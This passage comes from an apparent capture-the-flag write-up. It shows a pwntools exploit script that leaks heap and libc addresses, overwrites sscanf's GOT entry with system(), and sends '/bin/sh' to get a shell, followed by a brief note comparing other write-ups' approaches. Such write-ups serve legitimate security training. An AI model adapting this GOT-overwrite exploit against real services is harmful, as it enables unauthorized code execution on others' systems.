 ```
    arena_addr = get_hex_from_output(p)
    p.recvuntil('Enter command:')

    LIBC_BASE = int(arena_addr,16) - (0x450 + 0x2000 + 0x1a7000)
    LIBC_SYSTEM_OFFSET = 0x3e3e0 # same locally as on server

    SYSTEM_ADDRESS = LIBC_BASE + LIBC_SYSTEM_OFFSET
    SSCANF_ADDR = 0x0804a12c

    log.info("heap address = " + heap_addr)
    log.info("heap_base = " + hex(HEAP_BASE))
    log.info("arena address = " + arena_addr)
    log.info("LIBC_base = " + hex(LIBC_BASE))
    log.info("system address = " + hex(SYSTEM_ADDRESS))

    # Overwrite pointer to data
    p.send('set 0 5 3 ' + hex_to_float_string(SSCANF_ADDR) + '\n')
    p.recvuntil('Enter command:')

    # Overwrite GOT
    p.send('set 1 0 0 ' + hex_to_float_string(SYSTEM_ADDRESS) + '\n')
    p.recvuntil('Enter command:')

    p.send('/bin/sh\n')

    p.interactive()
```

### Comparison to other approaches

Other writeups read a `libc` address directly from the GOT table. In leaking a `libc` address close to that of the `system` function, it should be possible to avoid having to actually load the server's `libc` version into a running process. I found the practice associated with doing so to be useful training, however, for future CTFs.
